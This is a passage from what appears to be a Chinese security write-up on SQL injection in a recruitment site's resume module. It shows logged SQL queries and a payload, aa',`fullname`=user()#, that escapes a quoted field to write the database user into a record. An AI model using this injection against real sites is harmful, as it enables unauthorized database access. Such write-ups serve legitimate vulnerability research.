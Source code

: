 ```sql
2022/4/14 20:49	INSERT INTO qs_resume_search_key (`id`, `display`, `uid`, `subsite_id`, `sex`, `nature`, `marriage`, `experience`, `district`, `sdistrict`, `wage`, `education`, `photo`, `refreshtime`, `talent`, `key`, `likekey`) VALUES ('1', '1', '1', '0', '1', '62', '1', '79', '1', '39', '59', '66', '0', '1649940585', '1', 'liandy \xC8\xED\xBC\xFE\xCF\xEEĿ\xBE\xAD\xC0\xED/\xD6\xF7\xB9\xDC liandy0  \xC8\xED\xBC\xFE00 \xCF\xEEĿ00 \xCF\xEEĿ\xBE\xAD\xC0\xED \xBE\xAD\xC0\xED00 \xD6\xF7\xB9\xDC00 \xB8\xDF\xD6\xD000 liandy', '\xC8\xED\xBC\xFE\xCF\xEEĿ\xBE\xAD\xC0\xED/\xD6\xF7\xB9\xDC,,xxxx,liandy')


2022/4/14 20:49	UPDATE qs_resume SET `photo`='0', `complete`='1', `complete_percent`='60', `key`='liandy \xC8\xED\xBC\xFE\xCF\xEEĿ\xBE\xAD\xC0\xED/\xD6\xF7\xB9\xDC liandy0  \xC8\xED\xBC\xFE00 \xCF\xEEĿ00 \xCF\xEEĿ\xBE\xAD\xC0\xED \xBE\xAD\xC0\xED00 \xD6\xF7\xB9\xDC00 \xB8\xDF\xD6\xD000 liandy', `refreshtime`='1649940585' WHERE uid='1' AND id='1'


2022/4/14 20:49	UPDATE qs_resume_search_key SET `sex`='1', `nature`='62', `marriage`='1', `experience`='79', `district`='1', `sdistrict`='39', `wage`='59', `education`='66', `photo`='0', `refreshtime`='1649940585', `talent`='1', `key`='liandy \xC8\xED\xBC\xFE\xCF\xEEĿ\xBE\xAD\xC0\xED/\xD6\xF7\xB9\xDC liandy0  \xC8\xED\xBC\xFE00 \xCF\xEEĿ00 \xCF\xEEĿ\xBE\xAD\xC0\xED \xBE\xAD\xC0\xED00 \xD6\xF7\xB9\xDC00 \xB8\xDF\xD6\xD000 liandy', `likekey`='\xC8\xED\xBC\xFE\xCF\xEEĿ\xBE\xAD\xC0\xED/\xD6\xF7\xB9\xDC,,xxxx,liandy' WHERE uid='1' AND id='1'



2022/4/14 20:49	UPDATE qs_resume_tmp SET `photo`='0', `complete`='1', `complete_percent`='60', `key`='liandy \xC8\xED\xBC\xFE\xCF\xEEĿ\xBE\xAD\xC0\xED/\xD6\xF7\xB9\xDC liandy0  \xC8\xED\xBC\xFE00 \xCF\xEEĿ00 \xCF\xEEĿ\xBE\xAD\xC0\xED \xBE\xAD\xC0\xED00 \xD6\xF7\xB9\xDC00 \xB8\xDF\xD6\xD000 liandy', `refreshtime`='1649940585' WHERE uid='1' AND id='1'


```

然后开始绕过，继续添加信息，保存

payload（一开始坑坏我了，fullname 是被反引号括起来的）

```sql
aa',`fullname`=user()#
```

![](image50/50-32.png)

